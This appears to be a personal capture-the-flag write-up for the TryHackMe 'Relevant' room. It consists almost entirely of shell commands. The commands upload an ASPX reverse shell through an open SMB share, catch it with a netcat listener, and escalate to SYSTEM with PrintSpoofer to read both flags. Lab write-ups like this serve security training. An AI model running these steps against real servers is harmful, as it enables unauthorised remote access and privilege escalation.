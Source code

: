 # Relevant

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [relevant](https://tryhackme.com/room/relevant).

## Flag 1

``` sh
git clone https://github.com/borjmz/aspx-reverse-shell
cd aspx-reverse-shell
ifconfig
nano shell.aspx ## add IP from attack machine and port 8888
smbclient \\\\10.10.96.94\\nt4wrksv
put shell.aspx
nc -lvnp 8888
firefox http://10.10.96.94:49663/nt4wrksv/shell.aspx
more c:\users\bob\desktop\user.txt
```

## Flag 2

``` sh
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe ## PrintSpoofer32.exe didnt work
smbclient \\\\10.10.96.94\\nt4wrksv
put PrintSpoofer64.exe
cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer64.exe -i -c cmd
more c:\users\administrator\desktop\root.txt
```
